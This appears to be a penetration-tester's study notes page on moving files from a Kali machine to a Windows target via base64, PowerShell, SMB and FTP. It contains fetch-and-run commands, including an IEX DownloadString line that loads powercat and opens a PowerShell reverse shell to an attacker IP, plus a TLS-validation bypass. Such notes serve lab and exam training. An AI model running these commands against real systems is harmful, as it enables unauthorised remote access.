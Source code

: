 ```yaml
---
description: Data Transfer Techniques
---
```

# Windows - download from kali

## Transfer via base64

run in linux from where we want to transfer

```bash
cat test.txt | base64 -w 0; echo
<random_string_generated>
```

get that string which generated by above command

```bash
[IO.File]::WriteAllBytes("C:\Users\ASUS\Desktop\test.txt", [Convert]::FromBase64String("paste_that_random_string_generated"))
```

### check integrity

to check file hash in linux

```bash
md5sum file.txt 
```

to verify that hash

```powershell
Get-FileHash C:\Users\ASUS\Desktop\test.txt -Algorithm md5
```

***

## OSCP way to transfer via cmd

^cc4ca5

```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```

we can execute this even from cmd

## PowerShell Web Downloads

### DownloadFileAsync Download method

To download files using PowerShell over HTTP, HTTPS, or FTP, you can utilize the `WebClient` class for asynchronous downloads. Here's how you can do it:


```powershell
# Start an asynchronous file download
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>', '<Output File Name>')
```

```powershell
# Example usage to download a PowerShell script from GitHub
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```


This method allows you to download files without blocking the PowerShell prompt, making it useful for downloading large files or when performing multiple downloads in parallel.



### DownloadString - direct execute method

Directly execute PowerShell script from URL using DownloadString

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://192.168.45.231/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
{% endcode %}



### Invoke-WebRequest

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

iwr http://$IP/file.ps1 -O file.ps1
```

iwr,curl,wget can be used instead of Invoke-WebRequest
**-O is must**

#### If error occurs then use -UseBasicParsing

```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

if SSL/TLS error occur then run this command

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

***

## SMB Downloads

Creating and using an SMB server with Impacket:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Accessing the SMB share:

```powershell
copy \\192.168.220.133\share\nc.exe
```

if unauthenticated error then give username and password while making server

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
net use n: \\192.168.45.221\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe \\IP\share
        1 file(s) copied.
```

***

## FTP Download

Installing an FTP server with Python:

```bash
sudo pip3 install pyftpdlib
```

* default port 2121
* Anonymous authentication is enabled by default

```bash
sudo python3 -m pyftpdlib --port 21
```

Downloading a file via PowerShell:

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

From CMD:
```
ftp -A $kali_IP
```

use as ftp server
***

Random comment

1. one
2. two
3. three

